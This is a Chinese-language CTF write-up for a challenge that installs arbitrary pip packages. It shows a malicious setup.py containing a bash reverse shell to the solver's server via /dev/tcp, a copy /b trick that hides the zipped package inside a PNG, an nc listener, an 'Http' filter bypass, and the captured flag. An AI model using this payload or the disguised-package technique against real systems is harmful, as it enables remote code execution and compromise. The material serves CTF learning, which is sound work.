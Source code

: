 ## 题目描述

可以安装任意包的接口，你会怎么利用呢?

## 解题

根据搜索该题为RCE漏洞的利用，本题的主要原理就是pip在下载包以后，会自动进行解压然后执行setup.py文件，那么可以人为构造一个带有恶意代码的setup.py文件，然后把该文件压缩，和png图片合在一起上传至公网服务器上，当题目执行pip安装包时，会触发我们自己构建的setup.py文件中的代码。

解题需求：要求一台具有稳定ipv4地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立tcp连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
# 解释：
# bash -c  "cmd string"  接的是shell命令字符串，用引号括起来，运行后面的命令；
# bash -i 创建一个交互式bash进程
# >&    将标准输入和标准错误输出重定向到文件/dev/tcp/自己服务器IP地址/端口号;
# /dev/tcp/自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个socket调用，建立一个socket连接;
# 0>&1 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
# 注意服务器的端口一定要是开放的
```



将上面的代码放入setup.py中，然后创建一个文件夹（名字英文任取），将setup.py放入文件夹，然后压缩文件夹，得到文件夹.zip

3、在windows电脑的cmd窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、现在服务器上使用nc命令监听端口（至于为什么是nc。。咳咳）

```shell
sudo nc -lvn 端口
```

![image-20240220161135499](./img/piphack/image-20240220161135499.png)

2、然后用nc连接题目给出的地址

![image-20240220161139217](./img/piphack/image-20240220161139217.png)

这里发现题目过滤了http，尝试使用Http绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最总发现flag：flag{a262d436-704d-402b-881d-c487d7cf945f}

![image-20240220161144411](./img/piphack/image-20240220161144411.png)

